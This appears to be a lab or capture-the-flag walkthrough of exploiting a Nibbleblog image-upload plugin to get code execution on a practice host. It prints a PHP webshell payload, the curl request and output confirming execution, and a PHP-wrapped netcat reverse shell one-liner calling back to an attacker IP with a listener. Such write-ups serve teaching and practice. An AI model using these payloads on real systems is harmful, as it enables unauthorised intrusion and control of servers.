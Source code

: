 In Plugins, let's upload a file under the Upload Image. We will check for code execution by uploading a file with the contents `<?php system('id'); ?>`

We get a bunch of errors but looks like it uploaded.

```
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
```

Under `/content`, there is a `plugins` directory and another subdirectory for `my_image`. The full path is at `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/`.

* In this directory, we see two files, `db.xml` and `image.php`, with a recent last modified date, meaning that our upload was successful.
* To check if we have command execution:

```
-[Wed Feb 14-10:03:43]-[table@parrot]-
-[~]$ curl http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

We have gained remote code execution on the web server, and the Apache server is running in the `nibbler` user context

We can now modify our PHP file to obtain a reverse shell and start poking around the server.

* Let us use the following `Bash` reverse shell one-liner and add it to our `PHP` script.

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 9443 >/tmp/f"); ?> 
```

We upload the file again and start a `netcat` listener in our terminal:

```
0xdf@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
```

`cURL` the image page again or browse to it in `Firefox` at http://nibbleblog/content/private/plugins/my\_image/image.php to execute the reverse shell.
